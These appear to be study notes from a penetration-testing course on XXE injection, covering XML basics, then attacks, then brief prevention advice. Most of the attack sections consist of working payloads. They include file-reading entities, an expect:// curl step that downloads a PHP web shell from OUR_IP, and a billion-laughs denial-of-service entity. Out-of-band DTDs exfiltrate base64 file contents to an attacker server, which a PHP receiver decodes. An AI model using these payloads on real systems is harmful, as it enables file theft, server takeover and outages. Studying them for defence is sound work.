








# XXE

- XML External Entity (XXE) injection 
- occurs when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it which may allow us to use XML features to perform malicious actions
- can cause considerable damage to a web app and its back-end server from disclosing sensitive files to shutting the back-end server down 

## XML

- Extensible Markup Language (XML) - common markup language (similar to HTML or SGML) 
- designed for flexible transfer and storage of data and documents in various types of applications
- XML - not focused on displaying data but mostly on storing documents' data and representing data structures
- XML documents are formed of element trees 
	- each element is denoted by a tag
	- first element is called root element
	- other elements are child elements
- example of XML document

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
	<date>01-01-2022</date>
	<time>10:00 am UTC</time>
	<sender>john@inlanefreight.com</sender>
	<recipients>
		<to>HR@inlanefreight.com</to>
		<cc>
			<to>billing@inlanefreight.com</to>
			<to>payslips@inlanefreight.com</to>
		</cc>
	</recipients>
	<body>
		Hello,
			Kindly share with me this invoice for the payment on ..
		Regards,
		John
	</body>
</email>
```

- In this example,

| Key | Definition | Example |
| --- | ---------- | ------- | 
| Tag | keys of an XML document, usually wrapped with (</>) characters | \<date\> |
| Entity | XML variables, usually wrapped with (&/;)characters | \&lt; |
| Element | root element or any of its child elements and its value is stored in between a start-tag and an end-tag | \<date>01-01-2022\</date> |
| Attribute | Optional specifications for any element that are stored in the tags which may be used by the XML parser | version="1.0"/encoding="UTF-8" |
| Declaration | usually the first line of an XML document, and defines the XML version and encoding to use when parsing it | \<?xml version="1.0" encoding="UTF-8"?> |
| Declaration | Usually the first line of an XML document and defines the XML version and encoding to use when parsing it | \<?xml version="1.0" encoding="UTF-8"?> |

- `<, >, &, or "` -> `&lt;, &gt;, &amp;, &quot;`
- comments - `<!-- some comment -->` 

## XML DTD

- XML Document Type Definition allows the validation of an XML document against a pre-defined document structure
- pre-defined document structrue can be defined in the document itself or in an external file
- example of DTD for XML document above

```xml
<!DOCTYPE email [
	<!ELEMENT email (date, time, sender, recipients, body)>
	<!ELEMENT recipients (to, cc?)>
	<!ELEMENT cc (to*)>
	<!ELEMENT date (#PCDATA)>
	<!ELEMENT time (#PCDATA)>
	<!ELEMENT sender (#PCDATA)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

- DTD - declaring root `email` element with `ELEMENT` type declaration and denoting its child elements
- each of the child elements is also declared where some of them also have child elements while others may contain raw data (PCDATA)
- this DTD can be placed within the XML document itself, right after the XML Declaration in the first line
- OR, it can be stored in an external file (eg - `email.dtd`) and then referenced within the XML document with the `SYSTEM` keyword, as

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```

- it is also possible to reference a DTD through a URL as 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

## XML Entities 

- can also define custom entities (ie - XML variables) in XML DTDs, to allow refactoring of variables and reduce repetitive data
- by the use of `ENTITY` keyword which is followed by the entity name and its value as

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
	<!ENTITY company "Inlane Freight">
]>
```

- once an entity is defined, it can be referenced in an XML document between an `&` and a `;` - eg - `&company;` 
- when an entity is referenced, it will be replaced with its value by the XML parser
- we can **reference External XML Entities with the SYSTEM keyword**, which is followed by the external entity's path as 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
	<!ENTITY company SYSTEM "http://localhost/company.txt">
	<!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

- can use **PUBLIC** keyword instead of **SYSTEM** for loading external resources, which is used with publicly declared entities and standards, such as language code (`lang="en"`)
- similar to internal XML entities defined within documents
- when we reference an external entity (eg - `&signature;`), the parser will replace the entity with its value stored in the external file (eg - signature.txt)
- when the XML file is parsed on the server-side, in cases like SOAP (XML) APIs or web forms, then an entity can reference a file stored on the back-end server, which may eventually be disclosed to us when we reference the entity 

---

# Local File Disclosure

- when a web app trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities
- suppose we can define new entities and have them displayed on the web page
- we should also be able to define external entities and make them reference a local file, which when displayed, should show us the content of that fiel on the back-end server

## Identify

- first step in identifying potential XXE vulnerabilities - finding web pages that accept an XML user input
- suppose an web application, which have a Contact Form and when we fill the contact form and click on Send Data, then its POST request looks like



- this form sends the data in an XML format to the web server
- suppose this server does not apply any filters or sanitization on our XML input
- we can exploit this XML form to read local files



- the value of email element is being displayed back to us on the page
- **to print the content of an external file to the page, we should note which elements are being displayed, such that we know which elements to inject into**
- for the above example, whatever the value we place in the email tag will be displayed in the HTTP response
- try to define a new entity and then use it as a variable in the email element to see whether it gets replaced with the value we defined

```xml
<!DOCTYPE email [
	<!ENTITY company "Inlane Freight">
]>
```

- in this example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, and we can add a new DTD before defining the entity 
- if the DOCTYPE was already declared in the XML request, we would just add the ENTITY element to it 



- we have a new XML entity called `company` which we can reference with `&company;`
- the response use the value of entity we defined and indicating that we may inject XML code
- **non vulnerable application would display as `&company;` as a raw value **

> Note : Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML
- even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml` and then convert the JSON data to XML with [this tool](https://www.convertjson.com/json-to-xml.htm)
- if the web application accepts the request with XML data, then we may also test it against XXE vulnerabilities

## Reading Sensitive Files

- if we can define new internal XML entities, try to define external XML entities
```xml
<!DOCTYPE email [
	<!ENTITY company SYSTEM "file:///etc/passwd">
]>
```



- now we can read the local files
- this enables to read the content of sensitive files like configuration files which may contain passwords and other sensitive files like id_rsa

## Reading Source Code

- we can also read the source code of the web application 



- this example doesn't work as we did not get any content
- the file we are referencing is not in a proper XML format and fails to be referenced as an external XML entity
- (a file contains some XML special characters eg - </>/& , it will break the external entity reference and not be used for the reference)
- (a file contains binary data cannot be read as well.)
- use PHP wrapper filters to change base64 encode

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```



- will only works with PHP web applications

## RCE with XXE

1. easiest way is to look for ssh keys
2. attempt to utilize a hash stealing trick in Windows-based web applications by making a call to our server
3. execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP expect module to be installed and enabled

- if XXE directly prints its output, we can execute basic commands as `expect://id` and the page will print the command output

4. most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app

```sh
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python -m http.server 80
```

- we can use this XML to execute a curl command that downloads our web shell into the remote server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- replaced all spaces in curl command with `$IFS` to avoid breaking the XML syntax
- many other characters like |, > and { may break the code, and should avoid using them

## Other XXE Attacks

- SSRF exploitation - used to enumerate locally open ports and access their pages among other restricted web pages through XXE vulnerabilities
- common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# Advanced File Disclosure

- not all XXE vulns are straightforward to exploit
- some file formats may not be readable through basic XXE
- web app may not output any input values in some instances

## Advanced Exfiltration with CDATA

- to output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (eg `<![CDATA[ FILE_CONTENT ]]>`)
- XML parser would consider this part raw data which may contain any type of data including special characters
- define a `begin` internal entity with `<![CDATA [`, and `end` internal entity with `]]>` and place our external entity file in between and it should be considered as a `CDATA` element as

> NOT WORKING CODE
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

- reference the `&joined;` entity
- it will not work as XML prevents joining internal and external entities
- to bypass, we can utilize XML Parameter Entities, special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```
- this file is stored in our machine and then reference it as an external entity on the target web application, as

```sh
echo <!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python -m http.server 8000
```

- now, we can reference our external entity `xxe.dtd` and then printt the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```



- Note: in some modern web servers, we may not be able to read some files (like index.php) as they would be prevnting a DOS attack caused by file/entity self-reference (ie - XML entity reference loop)

## Error Based XXE

- if the web application might not write any output, we cannot control any of the XML input entities to write its content
- cannot be able to retrieve the file contents with above methods
- **if the web application displays runtime errors (eg - PHP errors) and does not have proper exception handling for the XML input, we can use this flaw to read the output of the XXE exploit**

1. Try to send malformed XML data and see if the web applicaton displays any errors
- try to delete any of the closing tags, or change one of them (eg - \<roo> instead of \<root>) or reference non-existing entity



- in this example, get an error and it revealed the web server directory 

2. Host a DTD file that contains

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
- defines the `file` parameter entity and joins it with an entity that does not exist
- in this case `%nonExistingEntity;` does not exist and will throw an error saying that it does not exist along with our joined `%file;` as part of the error
- there are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file

3. then we can call our external DTD script and reference the `error` entity as

```xml
<!DOCTYPE email [
	<!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
	%remote;
	%error;
]>
```
- this method may also be used to read the source code 
- all we have to do is change the file name in our DTD script to point to the fle we want to read (eg - `file:///var/www/html/submitDetails.php`)
- this method is not as reliable as the previous method for reading source files, it may have length limitations, and certain special characters may still break it


## Summary

### CDATA

- **at our server payload (xxe.dtd contents)**

```xml
<!ENTITY joined "%begin;%file;%end;">
```

- **at request**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.29:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<root>
<name>first</name>
<tel>3452343456</tel>
<email>&joined;</email>
<message>Comment</message>
</root>
```

## ERROR method

- **at our server payload (error.dtd contents)**

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
- **at request**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://10.10.14.29:8000/error.dtd">
  %remote;
  %error;
]>
<root>
<name>first</name>
<tel>3452343456</tel>
<email>test@test.com</email>
<message>Comment</message>
</root>
```
---

# Blind Data Exfiltration

- if we did not receive any output containing any of our XML input entities or did not get any error?

## Out-of-bound data exfiltration

- similar to previous cdata and error attacks
- instead of having the web application output our `file` entity to a specific XML entity ,we will make the web application send a web request to our web server with the content of the file we are reading
- to do so, 
	- use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it
	- then create another external parameter entity and reference it to our IP
	- place the `file` parameter value as part of the URL being requested over HTTP as

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
- this will reflect with base64 encoded value at our server as `content=base64 encoded value`
- write php script to automatically detects the encoded file content and decodes it, and outputs it to the terminal

```php
<?php
if (isset($_GET['content'])) {
	error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
- write it in `index.php` and start the PHP server on port 8000
```sh
php -S 0.0.0.0:8000
```

- initiate the attack, by simply adding `<root>&content;</root>` which reference our entity and send the request to our machine with the file content

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
	<!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
	%remote;
	%oob;
]>
<root>&content;</root>
```

> in addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our ULR (eg - `ENCODEDTEXT.our.website.com`) and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data.

## Automated OOB Exfiltration

- can automate the process of blind XXE data exfiltration with tools
- https://github.com/enjoiz/XXEinjector
- with this tool, copy the HTTP request from Burp and write it to a file for the tool to use
- not include the full XML data, only the first line and write `XXEINJECT` after it as a position locator for the tool

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- run the tool with the 
	- `--host/--httpport` flags as our IP port
	- `--path` flag for the file we want to read
	- `--oob=http` and `--phpfilter` flags to repeat the OOB attacks

```sh
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

---

# XXE Prevention

- prevention is easy as they are caused mainly by outdated XML libraries

## Avoding Outdated Components

- XML input is usually handled by the built-in XML libraries 
- so, if it is vulnerable, it is likely due to an outdated XML library that parses the XML data
- eg - PHP [libxml_disable_entity_loader](https://www.php.net/manual/en/function.libxml-disable-entity-loader.php) function is deparcated as it allows a developer to enable external entities in an unsafe manner which leads to XXE vulns
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#php

## Using Safe XML Configurations

- Disable referencing custom Document Type Definitins (DTDs)
- Disable referencing External XML Entities
- Disable Parameter Entity processing
- Disable support for XInclude
- Prevent Entity Reference Loops

---